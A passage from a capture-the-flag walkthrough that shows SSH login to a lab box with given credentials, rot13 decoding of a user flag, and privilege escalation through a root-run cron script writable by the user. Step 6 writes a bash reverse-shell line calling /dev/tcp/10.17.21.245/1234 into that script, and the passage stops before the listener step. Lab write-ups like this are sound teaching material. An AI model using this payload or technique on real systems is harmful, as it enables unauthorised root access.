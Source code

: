 SSH to the host using the extracted username and port from enumeration (port used in your notes was `6598`):

```bash
ssh boring@<ip> -p 6598
# Password: iconvertedmypasswordtobinary
```

On login the machine displayed a scary banner, but after login you had a user shell as `boring`.

Checked for user flag:

```bash
cat ~/user.txt
# Output (rotated): synt{a0jvgf33zfa0ez4y}
# After rot13 -> flag{n0wits33msn0rm4l}
```

**User flag:** `flag{n0wits33msn0rm4l}`

---

## 🛠️ Step 5: Privilege Escalation — Writable, Executable Script

Looked for files that are both writable and executable by the current user:

```bash
find / -type f -exec test -w {} \; -exec test -x {} \; -print 2>/dev/null
```

Found:

```
/var/www/.mysecretcronjob.sh
```

Contents initially were empty / placeholder:

```bash
cat /var/www/.mysecretcronjob.sh
# #!/bin/bash
# i will run as root
```

The script is writable by `boring` and will be run as root (cronjob). This is a classic privilege escalation vector.

---

## 🚀 Step 6: Inject Reverse Shell & Get Root

Created a reverse shell payload and wrote it into the script:

```bash
echo "sh -i >& /dev/tcp/10.17.21.245/1234 0>&1" > /var/www/.mysecretcronjob.sh
```

On the attacker machine:
